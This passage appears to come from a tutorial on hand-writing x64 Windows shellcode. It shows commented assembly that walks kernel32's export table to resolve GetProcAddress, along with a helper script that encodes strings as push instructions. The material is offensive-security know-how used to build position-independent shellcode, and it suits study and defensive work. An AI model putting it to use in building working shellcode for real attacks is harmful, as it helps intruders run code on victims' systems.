 ```
"   mov edx, [rbx+r12];"            # Move the value at rbx+0x88 into edx
"   add rdx, r8;"                   # Convert RVA of Export Address Table to absolute address by adding base address
"   mov r10d, [rdx+0x14];"          # Load number of exported functions from Export Address Table
"   xor r11, r11;"                  # Zero out R11 to use it as a clean register
"   mov r11d, [rdx+0x20];"          # Get RVA of the AddressOfNames from the Export Address Table
"   add r11, r8;"                   # Convert AddressOfNames RVA to absolute address by adding base address
"   mov rcx, r10;"                  # Initialize RCX with the number of functions (loop counter)
```

When making the comparison with the desired string in the function `kernel32findfunction`, it should be done using the string "`GetProcA`" due to character limitations and because the first match that occurs will be the function we seek.

```
PS C:\Users\s4dbrd\Desktop> python .\encodeString.py GetProcAddress
mov rax, 0x737365726464
push rax;
mov rax, 0x41636f7250746547 # GetProcA
push rax;
```
The string is replaced in the function:

```
"kernel32findfunction: "
" jecxz FunctionNameFound;"         # Jump to FunctionNameFound if RCX is zero (no more functions to check)
"   xor ebx,ebx;"                   # Clear EBX to use as a temporary register
"   mov ebx, [r11+4+rcx*4];"        # Load RVA of current function name into EBX (adjust index as rcx decrements)
"   add rbx, r8;"                   # Convert RVA to absolute address (function name VMA)
"   dec rcx;"                       # Decrement the loop counter
"   mov rax, 0x41636f7250746547;"  # Load the ASCII value of 'AcorPteG' into RAX for comparison
"   cmp [rbx], rax;"                # Compare the first eight bytes of the function name at RBX with 'GetProcAddress'
"   jnz kernel32findfunction;"      # If not matched, jump back to start of loop
"FunctionNameFound: "
# Entry point after finding the target function name 'GetProcAddress'
"   xor r11, r11;"
"   mov r11d, [rdx+0x24];"          # Load the RVA of the AddressOfNameOrdinals from the Export Table
"   add r11, r8;"                   # Convert RVA to absolute VMA (Virtual Memory Address)
# Incrementing the counter to match the ordinal array index, since we decremented it in the search loop
"   inc rcx;"
"   mov r13w, [r11+rcx*2];"         # Retrieve the function ordinal using the adjusted counter from AddressOfNameOrdinals
# Preparing to fetch the actual function address from AddressOfFunctions
"   xor r11, r11;"
"   mov r11d, [rdx+0x1c];"          # Load the RVA of the AddressOfFunctions from the Export Table
"   add r11, r8;"                   # Convert RVA to absolute VMA where the function addresses are stored
"   mov eax, [r11+4+r13*4];"        # Fetch the function address RVA using the ordinal as an index
"   add rax, r8;"                   # Convert function address RVA to absolute address
"   mov r14, rax;"                  # Store the resolved function address in R14 for later use
```
